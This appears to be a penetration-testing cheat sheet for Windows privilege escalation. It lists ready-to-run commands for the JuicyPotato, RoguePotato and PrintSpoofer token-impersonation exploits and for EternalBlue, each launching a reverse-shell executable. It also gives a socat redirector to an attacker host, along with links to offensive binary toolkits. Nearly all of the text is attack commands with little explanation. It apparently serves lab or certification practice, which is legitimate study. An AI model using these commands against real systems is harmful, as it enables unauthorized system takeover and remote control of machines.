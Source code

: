 ### `JuicyPotato`:

Requires `SeAssignPrimaryTokenPrivilege` and `SeImpersonatePrivilege`

```bash
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\reverse.exe" -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

Get `CLSID` from [here](https://ohpe.it/juicy-potato/CLSID/)

### `RoguePotato`:

Requires `SeAssignPrimaryTokenPrivilege` and `SeImpersonatePrivilege`

For Windows Server 2019 and Windows 10.

Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows:
```bash
$ sudo socat tcp-listen:135,reuseaddr,fork tcp:<target>:9999
```

Run the `RoguePotato` exploit:

```bash
RoguePotato.exe -r <attacker> -e "C:\PrivEsc\reverse.exe" -l 9999
```

### `PrintSpoofer`:

Requires `SeImpersonatePrivilege`

Windows 8.1, Windows Server 2012 R2, Windows 10 and Windows Server 2019

```bash
PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

### `EternalBlue`:

```bash
python eternalblue/checker.py legacy.htb
python eternalblue/send_and_execute.py legacy.htb reverse.exe 445 <pipe>
```

### `MSFVenom`:


## Static Binaries

https://github.com/ernw/static-toolbox

https://github.com/ZephrFish/static-tools

https://github.com/andrew-d/static-binaries

https://github.com/interference-security/kali-windows-binaries

https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
